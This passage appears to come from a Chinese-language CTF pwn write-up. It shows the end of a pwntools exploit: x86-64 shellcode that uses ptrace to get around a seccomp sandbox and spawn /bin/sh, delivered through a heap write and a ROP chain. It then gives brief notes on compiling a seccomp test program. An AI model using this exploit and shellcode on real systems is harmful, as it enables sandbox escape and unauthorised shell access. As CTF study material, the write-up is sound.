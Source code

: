 ```python
    mov rsi, rsp
    xor rdx, rdx
    xor r10, r10
    mov rax, 61
    syscall                 /* invoke wait4() */

    mov rdi, 0x4200
    mov rsi, r8
    xor rdx, rdx
    mov r10, 0x00000080
    mov rax, 101
    syscall                 /* ptrace(PTRACE_SETOPTIONS, child_pid, 0, 0) */
    
    mov rdi, 0x7
    mov rsi, r8
    xor rdx, rdx
    xor r10, r10
    mov rax, 101
    syscall                 /* ptrace(PTRACE_CONT, child_pid, 0, 0) */
    
    jmp monitor_child
child_process:
    /* sleep(5) */
    push 0
    push 5
    mov rdi, rsp
    xor esi, esi
    push 0x23
    pop rax
    syscall                 /* nanosleep(requested_time='rsp', remaining=0) */
    
    mov rax, 0x{order1}
    push rax
    mov rdi, rsp
    mov rsi, 0
    xor rdx, rdx
    mov rax, 59
    syscall                 /* execve("/bin/sh",0,0) */
    
    jmp child_process
''')
edit(4,p64(leave_ret) + p64(rdx_rbx) + p64(0x0) + p64(heap_base + 0x1710 - 0x28) + mmap + shellcode)

debug(io)
io.sendlineafter(b'Exit',b'5')

io.interactive()
```

# test.c
再下面是ptrace的测试程序，在我的环境下，`gcc test.c -lseccomp`才行
得加个`-lseccomp`参数
```
#include <errno.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/prctl.h>
#include <sys/ptrace.h>
```